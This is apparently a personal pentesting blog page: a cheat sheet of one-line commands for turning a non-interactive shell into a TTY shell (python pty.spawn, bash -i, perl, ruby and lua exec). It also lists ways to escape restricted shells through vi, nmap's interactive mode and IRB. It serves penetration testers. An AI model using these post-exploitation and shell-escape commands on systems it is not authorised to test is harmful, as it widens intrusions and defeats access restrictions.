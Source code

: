 ```yaml
---
layout: default
title : 0xS3rGio - Spawning A TTY Shell, Cheat Sheets
---
```


Often during A Pen Tests you may obtain A shell without having tty, yet wish to interact further with the System yes lol.Here are some Commands which will allow you to Spawn a TTY Shell. 

Cheat Sheets For Spawning A TTY Shell.

```python -c 'import pty; pty.spawn("/bin/sh")'```

```python -c 'import pty; pty.spawn("/bin/bash")'```

```python3 -c 'import pty; pty.spawn("/bin/sh")'```

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

```/bin/bash -i```

```/bin/sh -i```

```echo os.system('/bin/bash')```

```perl —e 'exec "/bin/sh";'```

```perl: exec "/bin/sh";```

```ruby: exec "/bin/sh"```

```lua: os.execute('/bin/sh')```

Bypassing Shell Restriction And Spawning A TTY Shell.

Within Vi

```:set shell=/bin/bash:shell```

Within Vi

```:!bash```

Within Nmap

```nmap --interactive``` Now Type ```!sh```

Within IRB

```exec "/bin/sh"```

<br> <br>
[Back To Home](../index.md)
<br>
